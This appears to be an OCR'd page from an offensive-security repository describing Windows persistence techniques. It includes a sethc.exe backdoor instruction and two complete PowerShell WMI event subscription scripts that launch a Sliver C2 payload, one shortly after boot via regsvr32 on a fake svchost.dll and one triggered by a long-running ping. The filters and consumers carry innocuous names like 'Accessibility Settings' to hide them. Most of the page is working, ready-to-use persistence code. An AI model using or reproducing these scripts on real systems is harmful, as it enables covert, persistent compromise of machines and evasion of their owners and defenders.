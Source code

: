 To access this folder, you MUST be NT AUTHORITY\SYSTEM

Run run.bat script.

If you're able to, run this as an administrator to establish persistence with sethc.exe

Time Based WMI Event Subscription (requires local admin or domain admin, not cross-domain compatible)

.dll beacon

This will run our sliver payload executable within 5 minutes of the machine being powered on:

$FilterArgs = @{name='Accessibility Settings';
				EventNameSpace='root\CimV2';
				QueryLanguage="WQL";
				Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND (TargetInstance.SystemUpTime >= 200) AND (TargetInstance.SystemUptime < 320)";}
$Filter=New-CimInstance -Namespace root\Subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='Accessibility Settings';
				CommandLineTemplate="regsvr32.exe C:\\Windows\\System32\\svchost.dll";}
$Consumer=New-CimInstance -Namespace root\subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root\Subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs

Running from the Sysmon Archive folder

This will run our sliver payload executable if PING.EXE runs for longer than 10s ex: ping localhost -n 15 will execute the payload.

make sure you change the filename of the executable

$FilterArgs = @{name='Performance Monitor';
				EventNameSpace='root\CimV2';
				QueryLanguage="WQL";
				Query="SELECT * FROM __InstanceDeletionEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_Process' AND (TargetInstance.Name = 'PING.EXE') AND (TargetInstance.UserModeTime >= 10000)";}
$Filter=New-CimInstance -Namespace root\Subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='Performance Monitor';
				CommandLineTemplate="C:\\PerfMon\\3218c2f0314a5fdb20cd7fdb7d1a71e038e1cb092f03efd171f97ae8984c2329.exe";}
$Consumer=New-CimInstance -Namespace root\subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root\Subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
